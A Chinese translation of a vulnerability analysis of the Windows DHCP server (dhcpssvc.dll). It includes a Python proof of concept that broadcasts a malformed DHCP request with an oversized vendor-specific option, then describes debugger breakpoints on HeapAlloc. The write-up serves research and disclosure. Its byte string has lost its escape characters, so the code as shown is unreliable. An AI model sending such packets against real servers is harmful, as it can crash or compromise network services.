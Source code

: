 为了验证这个漏洞，我需要构造一个恶意的 DHCP 包。首先，我用 dhcp-test 发送了一个合法的 DHCP 包：

[![](https://www.malwaretech.com/wp-content/uploads/2019/02/dhcp_packet.png)](https://www.malwaretech.com/wp-content/uploads/2019/02/dhcp_packet.png)

由上图看来，可以看到 vendor specific options 的数据都已经附加在包的后面了。我只是用 python 将十六进制数据提取出来，并卸了一个简单的 PoC。

```
from socket import *
import struct
import os

dhcp_request = (
    "x01x01x06x00xd5xa6xa8x0cx00x00x80x00x00x00x00x00" 
    "x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00" 
    "x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00" 
    "x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00" 
    "x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00" 
    "x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00" 
    "x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00" 
    "x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00" 
    "x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00" 
    "x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00" 
    "x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00" 
    "x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00" 
    "x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00" 
    "x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00" 
    "x00x00x00x00x00x00x00x00x00x00x00x00x63x82x53x63" 
    "x35x01x01x2bx0bx68x65x6cx6cx6fx20x77x6fx72x6cx64xff"
)

dhcp_request = dhcp_request[:-1]        #remove end byte (0xFF)
dhcp_request += struct.pack('=B', 0x2B) #vendor specific option code
dhcp_request += struct.pack('=B', 0xFF) #vendor specific option size
dhcp_request += "A"*254                 #254 bytes of As
dhcp_request += struct.pack('=B', 0xFF) #packet end byte

s = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP) #DHCP is UDP
s.bind(('0.0.0.0', 0))
s.setsockopt(SOL_SOCKET, SO_BROADCAST, 1)    #put socket in broadcast mode

s.sendto(dhcp_request, ('255.255.255.255', 67)) #broadcast DHCP packet on port 67
```

接下来，我将 debugger 附加到一个包含 dhcpssvc.dll 的 svchost 进程上，并且设置了断电。一个断电实在 HeapAlloc 上，另一个是在循环 2 后面，然后我开始发送我的 DHCP 数据包。

[![](https://www.malwaretech.com/wp-content/uploads/2019/02/heap_alloc_bp-1.png)](https://www.malwaretech.com/wp-content/uploads/2019/02/heap_alloc_bp-1.png)

在 HeapAlloc 的端点上，你可以看到分配了 0x0B 字节（这对于 hello world 字符串来说已经足够了），我希望看看再次命中这个断点时会发生什么。

[![](https://www.malwaretech.com/wp-content/uploads/2019/02/post_copy_bp.png)](https://www.malwaretech.com/wp-content/uploads/2019/02/post_copy_bp.png)
